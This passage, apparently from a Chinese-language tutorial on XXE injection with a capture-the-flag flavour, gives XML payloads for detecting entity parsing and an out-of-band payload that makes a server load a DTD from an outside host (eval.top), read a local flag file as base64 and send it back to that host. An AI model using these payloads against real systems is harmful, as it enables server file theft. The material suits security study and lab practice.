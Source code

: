 参数实体需要 %

## 进攻手段

### 检测

1. 检测XML是否会被成功解析：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE ANY [
	<!ENTITY name "my name is xxe">
]>
<root>&name;</root>
```

如果页面输出了my name is xxe，说明xml文件可以被解析

2. 检测服务器是否支持 DTD 引用外部实体：

```xml
<?xml version=”1.0” encoding=”UTF-8”?>
<!DOCTYPE ANY [
	<!ENTITY % name SYSTEM "http://localhost/index.html">
	%name;
]>
```

如果我们的服务器收到了请求，就说明服务器支持 DTD 引用外部实体

满足这两个条件的话，就可以尝试有没有 XXE 了

### 进攻

这个库可供参考：[Fetching Title#kytv](https://github.com/payloadbox/xxe-injection-payload-list)

#### 远程文件调用

在知道可能存在 XXE 之后，就动手

首先向服务器发一个这样的 xml

```xml
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://eval.top/eval.xml">
%remote;%payload;%send;
]>
```

eval.xml 里面则是这样的

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///d:/flag.txt">
<!ENTITY % payload "
	<!ENTITY &#x25; send SYSTEM 'http://eval.top/?content=%file;'>
">
```
